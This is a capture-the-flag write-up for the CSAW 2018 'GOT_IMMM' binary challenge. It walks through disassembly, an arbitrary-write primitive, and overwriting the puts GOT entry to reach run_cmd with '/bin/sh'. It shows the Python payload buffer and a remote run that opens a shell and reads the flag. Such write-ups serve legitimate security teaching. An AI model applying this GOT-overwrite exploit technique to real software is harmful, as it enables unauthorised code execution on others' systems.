 # Description #
GOT\_IMMM
150

Get it GOT it Good!

nc pwn.chal.csaw.io 10105

# Running the binary #
We were presented with a binary that received some user input and write it back to the console ...

```
./got
Welcome! The time is Thu Sep 27 04:28:22 UTC 2018
Anyways, give me a string to save: What can I write?
Ok, I'm writing What can I write?
 to my buffer...
What can I write?
```

# Analyzing the binary #

We just had an input of 32 bytes, but after the print there was some interesting stuff going on ...

```asm
0x004007e5      e8f6fdffff     call sym.imp.printf                  ; int printf(const char *format)
0x004007ea      488b45e8       mov rax, qword [local_18h]
0x004007ee      488b55d0       mov rdx, qword [s]
0x004007f2      488910         mov qword [rax], rdx
0x004007f5      488b55d8       mov rdx, qword [local_28h]
0x004007f9      48895008       mov qword [rax + 8], rdx
0x004007fd      488b55e0       mov rdx, qword [local_20h]
0x00400801      48895010       mov qword [rax + 0x10], rdx
0x00400805      488d45d0       lea rax, [s]
0x00400809      4889c7         mov rdi, rax                         ; const char *s
0x0040080c      e89ffdffff     call sym.imp.puts                    ; int puts(const char *s)
```
At 0x004007f2 we were able to write to an arbitrary address, per example we could modify the
puts GOT entry to jump again to the run\_cmd function. The **puts** got.plt entry was
at address 0x00601018 ...

```
[0x004005b0]> pdf
┌ (fcn) sym.imp.puts 6
│   sym.imp.puts (const char *s);
│           ; CALL XREF from sym.main (0x40080c)
└           0x004005b0      ff25620a2000   jmp qword reloc.puts                 ; loc._29 ; [0x601018:8]=0x4005b6
[0x004005b0]> px @reloc.puts
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00601018  b605 4000 0000 0000 c605 4000 0000 0000  ..@.......@.....
```

The original plan was to modify the value at address 0x00601018 with 0x0040074b
(address of run\_cmd), however if we kept looking at the code we were also able to write at 
two more locations rax+0x8 and rax+0x10.

```asm
0x004007f5      488b55d8       mov rdx, qword [local_28h]
0x004007f9      48895008       mov qword [rax + 8], rdx
0x004007fd      488b55e0       mov rdx, qword [local_20h]
0x00400801      48895010       mov qword [rax + 0x10], rdx
0x00400805      488d45d0       lea rax, [s]
0x00400809      4889c7         mov rdi, rax                         ; const char *s
```

We also needed to take into consideration the value that would end in the RDI register since
that would be our argument for the run\_cmd function.


```
[0x0040076b]> px @0x00601000
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00601000  280e 6000 0000 0000 0000 0000 0000 0000  (.`.............
0x00601010  0000 0000 0000 0000 b605 4000 0000 0000  ..........@.....
0x00601020  c605 4000 0000 0000 d605 4000 0000 0000  ..@.......@.....
0x00601030  e605 4000 0000 0000 f605 4000 0000 0000  ..@.......@.....
0x00601040  0606 4000 0000 0000 1606 4000 0000 0000  ..@.......@.....
```

Since we were writing at locations 0x0, +0x8 and +0x10, we would write at location 0x00601010,
the first offset stored /bin/sh, the second replaced the address for **puts** to run\_cmd and 
the third would be the same address for \_\_stack\_chk\_fail function.

At execution time we saw that the got entry for puts was 0x4005b6 since it was not resolved at
first.
```
 gef➤  x/gx 0x00601018
0x601018:       0x00000000004005b6
```
After executing the instruction at 0x4007f9 we verified that we overwrote the got entry for the
**puts** function ...

![overwrite](./imgs/owgot.png)

Our final buffer ended up like this ...

```py
buf = "/bin/sh" + "\x00"+  p64(0x0040074b) + p64(0x004005c6) + p64(0x00601010)
```

# Getting the flag #
```
python exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 10105: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
  ____     _____   _
 / ___| __|_   _| / |_ __ ___  _ __ ___
| |  _ / _ \| |   | | '_ ` _ \| '_ ` _ \
| |_| | (_) | |   | | | | | | | | | | | |
 \____|\___/|_|___|_|_| |_| |_|_| |_| |_|
             |_____|
Welcome! The time is Sun Sep 30 01:48:44 UTC 2018
Anyways, give me a string to save: /bin/sh^@K^G@^@^@^@^@^@E@^@^@^@^@^@^P^P`^@^@^@^@^@
Ok, I'm writing /bin/sh to my buffer...
$ ls
ls
art.txt  flag.txt  got    run.sh
$ cat flag.txt
cat flag.txt
flag{wE_g3t_[EDITED]}
```
